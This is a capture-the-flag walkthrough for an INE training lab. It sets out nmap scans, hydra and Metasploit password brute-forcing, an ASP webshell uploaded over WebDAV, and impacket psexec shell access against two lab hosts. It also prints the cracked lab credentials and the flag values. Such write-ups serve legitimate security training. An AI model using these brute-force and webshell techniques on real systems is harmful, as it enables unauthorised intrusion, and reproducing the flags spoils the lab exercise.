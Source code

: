 
---

# Lab Environment

In this lab environment, you will be provided with GUI access to a Kali Linux machine. Two machines are accessible at **http://target1.ine.local** and  **http://target2.ine.local**.

**Objective:** Perform system/host-based attacks on the target and capture all the flags hidden within the environment.

**Useful files:**

```
/usr/share/metasploit-framework/data/wordlists/common_users.txt, 
/usr/share/metasploit-framework/data/wordlists/unix_passwords.txt,
/usr/share/webshells/asp/webshell.asp
```

**Flags to Capture:**

- **Flag 1**: User 'bob' might not have chosen a strong password. Try common passwords to gain access to the server where the flag is located. (target1.ine.local)
- **Flag 2**: Valuable files are often on the C: drive. Explore it thoroughly. (target1.ine.local)
- **Flag 3**: By attempting to guess SMB user credentials, you may uncover important information that could lead you to the next flag. (target2.ine.local)
- **Flag 4**: The Desktop directory might have what you're looking for. Enumerate its contents. (target2.ine.local)

# Tools

The best tools for this lab are:

- Nmap
- Hydra
- Cadaver
- Metasploit Framework

---

## First Target

We will start with Nmap scan:`nmap -Pn -A -v -p- target1.ine.local`

We find that the first target is running a http server. If we visited the website, we find that it is blocked behind a login prompt. The lab instructions told us that the username is bob. We only need to find valid password for this username, and for this, we will use hydra:`hydra -l bob -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt target1.ine.local http-get`

The valid password for username bob is :"password_123321"

Now, to perform a directory search by also providing valid credentials, we will use dirb:`dirb http://target1.ine.local/ -u bob:password_123321` 

We find that Webdav is running on the target.

To test what files can be uploaded and ran on Webdav, we will use davtest:`davtest -auth bob:password_123321 -url http://target1.ine.local/webdav/` 

One of the files that can be uploaded and executed is a .asp file. This is great since Kali comes with a reverse web shell .asp file and this could be found in:"/usr/share/webshells/asp/webshell.asp"

To upload the file, we will use cadaver: `cadaver http://target1.ine.local/webdav`

After providing the valid credentials for user bob, we will upload the .asp payload file: `put /usr/share/webshells/asp/webshell.asp `

This will upload the file to the webserver and we can execute it if we clicked on the file name in the webdav directory.

This code gives us a text field where we can execute commands, to get the second flag:`type "C:\flag2.txt"` The first flag can be found in the webdav directory

**First flag**: cb021a24cb874d96a59a071f96107b02

**Second flag:** af66042fa2d84bf5bde439eef72ce4e1

---

## Second Target:

We will start with Nmap scan:`nmap -Pn -A -v -p- target2.ine.local` . This target is clearly running a smb server, we will use Metasploit to get valid credentials.

After starting msfconsole, we will use this auxiliary module: "scanner/smb/smb_login" to brute-force the smb service to get valid credentials. After setting the right settings for the user_file, pass_file and RHOSTS, we will get these credentials:
rooty:spongebob
demo:password1
auditor:hellokitty
administrator:pineapple. 
We need to make sure that STOP_ON_SUCCESS option is set to false.

Since we have valid credentials, we will use psexec.py to have a reverse shell on the target machine. We will find psexec.py in : /usr/share/doc/python3-impacket/examples.

We will use the administrator credentials: `python3 ./psexec.py administrator:pineapple@(second target IP)`

We will get reverse shell to the target.

We will find the third flag in the "C:" directory and the forth flag in:"C:\Users\Administrator\Desktop"

**Third flag:** bcb8d43900474106823bba1f4a28268d

**Forth flag:** 6526b42fe35340ed864de9041c0cac55


